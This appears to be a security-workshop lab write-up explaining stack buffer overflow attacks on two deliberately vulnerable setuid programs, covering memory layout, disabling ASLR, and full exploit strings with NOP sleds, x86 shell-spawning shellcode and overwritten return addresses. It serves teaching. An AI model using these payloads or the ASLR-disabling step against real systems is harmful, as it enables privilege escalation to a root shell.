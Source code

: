 # Buffer Overflow Attacks

## Instructions:

### Build and install the vulnerable targets
```
$ cd /home/userx/day1/targets
$ make
$ sudo make install
```
This creates executables `/tmp/target{1,2}` with the `setuid` bit set.

### Build the exploit code
```
$ cd /home/userx/day1/xploits
$ make
```

### Run the exploit code
```
$ cd /home/userx/day1/xploits
$ ./xploit1
$ ./xploit2
```

### Change the exploit code
Edit the xploit{1,2}.c files so that, when run again, they
a. first cause the target executable to crash, e.g., due to a segmentation fault
b. then cause the target executable to yield a root shell.
The "shellcode.h" file available in the `xploits/` directory contains the binary code that, when executed, executes the shell command.  You may want to use the contents of this code in the command-line arguments used while invoking the target executables.


## Solution:

Buffer Overflow attacks are possible when the Stack is set to executable. In this attack, we override the return address of a function to an arbitary position in the stack, which has the shellcode to be executed. This leads to code execution from the program.

To start with the attack, we disable the `randomize_va_space` to make our lives easier and stop the randomization of the stack each time the program is executed. This gives us the opportunity to work with the same address layout while executing the program multiple time.

```bash
# To disable aslr
$> echo 0 > /proc/sys/kernel/randomize_va_space

# To enable aslr
$> echo 2 > /proc/sys/kernel/randomize_va_space

# To verify aslr
$> cat /proc/sys/kernel/randomize_va_space
```

Once our binaries are compiled, we can start working with `gdb`.

#### Target1:
This is the easier of the two binaries provided in the exercise. To get a basic understanding of buffer overflow, we need to have some idea of how the memory is layed out.

<img src="https://gabrieletolomei.files.wordpress.com/2013/10/program_in_memory2.png" align="center" alt="https://gabrieletolomei.files.wordpress.com/2013/10/program_in_memory2.png">

As seen from the above diagram, the stack grows downwards. Inside the stack, the structure is as follows:
<img src="https://raw.githubusercontent.com/justan00b91/WSS22-IITD/main/day1/buffer-overflow/Screenshots/Stack_Structure.jpg">

The idea is simple, to overflow the buffer(Argument n in the image) so that it reaches the return address of the function. Then we can return to any point in the stack, which would be inside the buffer which contains the shellcode given in the lab manuals.

To do this we will need three things:

- Size of buffer in the stack
- Size of shellCode
- Memory address of the start of the buffer.


We start by finding the size of the buffer inside the stack, which in our case is `260`. Anymore then these many bytes and the return address is overwritten with the overflow bytes. We can find this by testing the size of the buffer in gdb and checking when exactly the system crashes.

The size of the shell code provided is `45 bytes`, although this changes from shellcode to shellcode.

Last, we need a memory address for the start of the buffer in the memory. This should not be the start of the buffer, but near the start of the buffer.

**Structure of the Exploit:**
```
"\x90"*215 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb4\xcf\xff\xff"
```

`\x90` is the hex equivalent of the instruction `NOP` instruction, guiding the program control (instruction counter) to simply jump to the next instruction without any execution.

The second part of the exploit is the shell code, which launches the `/bin/dash`, a shell present in almost every linux architecture.

Last part of the exploit is the address near the start of the buffer, written in little-endian style, as that is what the cpu understands.

##### Output:

Running the exploit successfully gave us the shell access.

![Shell-accessed](https://raw.githubusercontent.com/justan00b91/WSS22-IITD/main/day1/buffer-overflow/Screenshots/overflow1-1.png)

#### Target2:
This one was a bit trickier than the previous one. Instead of the vulnerable `strcpy` function, we have the `nstrcpy`, a custom implementation of the strcpy command, but insecure nonetheless.

![Code_snippet](https://raw.githubusercontent.com/justan00b91/WSS22-IITD/main/day1/buffer-overflow/Screenshots/Code_snippet.png)

The buffer size in this case is strictly 200, although for out case, we have taken 201 as the buffer size to cause segmentation fault.

**Structure of Exploit:**
```
'\x90'*147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x74\xcf\xff\xffBBBB'
```

The first part is the NOP slide in the buffer, to route the EIP towards the shellcode. The second part is the shellcode, which opens the `/bin/dash`, same as the first one. This third part is interesting, since the overflow happens of 8 bytes from the last of the buffer, so we need to add the return address then random data. The address is as usual written in little-endian format.

##### Output:

Shell is accessed in through the exploited vulnerability.

![Buffer Overflow](https://raw.githubusercontent.com/justan00b91/WSS22-IITD/main/day1/buffer-overflow/Screenshots/overflow2-2.png)
